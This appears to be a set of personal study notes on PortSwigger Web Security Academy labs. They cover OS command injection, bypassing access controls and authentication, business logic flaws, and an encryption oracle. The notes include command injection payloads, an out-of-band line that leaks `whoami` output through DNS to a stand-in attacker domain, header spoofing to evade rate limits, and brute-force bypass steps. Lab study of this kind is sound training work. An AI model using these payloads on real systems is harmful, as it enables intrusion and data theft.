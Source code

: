 # OS command injection
- Operators to link operations: 
    - `||`, `&&`, `;` -> try them all
    - less common: `|`, `&`, `0x0a or \n`
    -  `\`` or `$()` for command injection within command
- blind OS command injection -> use `sleep 5` or `ping -c 10 127.0.0.1` to confirm it
- to `exlpoit it` **write the output of the command to a WRITABLE FILE**:
    - ex: If images are retrieved from the path /image?filename=a -> try popular paths like: **/var/www/images** where it could be stored. Inject `||whoami+>+/var/www/images/a||` -> and then retrieve it from the image path: **/image?filename=a**
- to `exploit it` use **out-of-band interactions**
    - ex: `nslookup attacker.com` to test it and `& nslookup `whoami`.kgji2ohoyw.web-attacker.com &` to retrieve the value from the command output

# Access control vulnerabilities

### Lab 1 (Url based access-control can be circumvented)
- Some frameworks like: `symfony(php)`, `zend-diactoros`, `zend-http`, `zend-feed` -> support legacy headers **X-Original-URL** and **X-Rewrite-URL**
- These allow to rewrite the request: `GET /admin/delete` => `GET /?user=carlos, headers: {X-Original-URL: /admin/delete?user=carlos}`!
- If **access is restricted based on URL** => you can trick the url value of the request and change it from the header this way!

### Lab 2 (Method-based access control can be circumvented)
- POST is restricted, but GET is NOT
- try to change the request method and move the post parameters as ?x=1&y=2.
- sometimes access can be restricted to SOME HTTP METHODS

### Lab 3 
- Multi-step authorization, where last step is NOT PROPERLY CHECKED.
- ex: POST /admin-roles with body `action=upgrade&username=wiener` -> which if you add your session cookie -> **UNAUTHORISED!!!**
- but if you see, the next step of the authorization is: POST /admin-roles with body: `action=upgrade&confirmed=true&username=wiener` -> which if you add your session cookie -> WORKS!!!

### Lab 4
- The `Refferer` header indicates which website initiated the action
- Validation can be done rigurously on the `/admin` path, but on the other paths like: `/admin/delete?username=carlos` the validation is done based on the fact : **if the Refferer header is /admin**
    - The assumption is: only someone who has access to the admin page can initiate these action
    - Since /admin is well secured -> anyone who accesses these actions COME FROM /admin => `FALSE ASSUMPTION - attackers can change Refferer header`

- Other vulns: `Location based authorization` -> you can use a **VPN or other mechanisms to circumvent this**


# Authentication vulnerabilities

- Username enumeration using login forms: 
    - get different error when the username is valid but password is wrong than when both are wrong
    - get error `username is taken` on the registration form
    - indicators: **response status**, **error messages** or **response times**

### Lab 1 - Username enumeration via subtly different responses
- bruteforce usernames and passwords using wordlist
- for the usernames, the difference was the correct answer was missing a .
    - ex: WRONG response: `Invalid username or password.` vs VALID username: `Invalid username or password `

### Lab 2 - Username enumeration via response timing
- this lab has a rate limit defense based on the IP address of the sender
- to bypass IP rate limiting, use: `X-Forwarded-For: 161.19.1.1` and that will indicate that the traffic originates from that IP adddress
- to solve this, we used a **Pitchfork** attack from Intruder, adding a $$ to the X-Forwarded-For: `123.1.1.$1$` and one for the username
- OBS: When dealing with response timing, to make sure that the differences in time are visible, purposefully craft the exploit to make huge delays when working.
    - ex: If the username is correct, it's gonna go ahead and check the password, which takes time, so to make it more obvious -> **CHECK A LONGER PASSWORD takes MORE TIME** -> username=$$ and password=100characters long

#
    Brute-force protection mechanisms
    - IP rate limiting or blocking
        - bypass: X-Forwarded-For header 
    - locking account after too many failed attempts
        - bypass: counter may reset on correct login; so brute-force until BEFORE limit, login to your account, that resets counter -> continue process

### Lab 3 - Broken brute-force protection, IP block
- this lab resets the counter of wrong attempts on correct login, so it requires a sequence of tries like: **try1,try2,reset** or **try,reset,try,reset**
- we can use the `bruteforceBypass.py` script
- or we can use a `MACRO` in BurpSuite
    - go into Proxy Settings - Session - Macro - Add - choose the request that resets the counter(the correct login)
    - then go into the Proxy Settings - Session handling rules - add a macro -  add the macro, and make sure to check `Include all URLS` in the scope window
- or use `Turbo Intruder` (much faster too)
    - ![alt text](image.png)
        
### Lab 4 - Username enumeration via account lock
- this lab locks you out if the username is valid, but otherwise lets you try passwords forever
- For each username, launch an attack with 4-5 passwords, and when you get locked out -> valid username!!!
- So then you do a intruder normal sniper attack with the passwords and you get the password even with lockouts.

### Lab 5 - Offline password cracking

- the password was kept in a cookie in base64 encoding + md5 hash
- so we only needed to steal the cookie

wiener@exploit-0a1d009c03fd40c087b5dc67019700a7.exploit-server.net

# Business logic labs
### Lab 1: Low-level logic flaw
- aim for an `integer overflow` (integer max: **2,147,483,647**)
- use the Intruder to add 99 items at once multiple times(since 99 is the limit in one api call) -> observe that you get after a while the total to be negative
- try to buy -> ERROR: total cannot be negative
- SOLUTION: add again items until the integer overflows again to the positives and add smaller items to make the total under your store credit!



### Lab 2: Inconsistent handling of exceptional input
- aim for `buffer overflow`
- observe that for a long enought email you can get it truncated, while also keeping the whole address for the email confirmation!!!
- then play with the concept of: 
    - `You can use the link in the lab banner to access an email client connected to your own private mail server. The client will display all messages sent to @YOUR-EMAIL-ID.web-security-academy.net and any arbitrary subdomains. Your unique email ID is displayed in the email client.` -> subdomains means: **a@YOUR-EMAIL-ID.web-security-academy.net** but also **a@something.YOUR-EMAIL-ID.web-security-academy.net**
- Combine them: add exactly as many characters before `@dontwannacry.com`
so that it overflows the limit and the email in the app remains with the ending @dontwannacry,com == **ADMIN ACCOUNT**
- final payload email: `aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa@dontwannacry.com.exploit-0adf0019041165ce8369c75801ed004f.exploit-server.net`


### Authentication bypass via encryption oracle
- Whenever you see **remember-me** login , it probably keeps login data in a cookie
- In this case it uses some special encoding with a 16bit padded cipher with a private key
- `Try to find also a decrypt functionality`
- In this problem it provides encoded error messages that are then decoded on the main page when provided in the notification cookie
- When you recognize patterns, like base64, it sure as hell is base64. Like here you had to delete 16bit chuncks but not from the base64, but from the base64 hex decoding, And you then had to re-encode the payload with base64
    - You can observer the decoding by passing the stay-logged-in cookie to the notification cookie and seeing an error message like: `wiener:12797018361`
    - Then we use the error generation in the email field of the comment post request to generate the payload: `administrator:126726310`.
    - But the error message is: `Invalid email address: ` so we have to pad it to our payload with enough chars to be 16-bit padded (which we identified from passing different payloads)
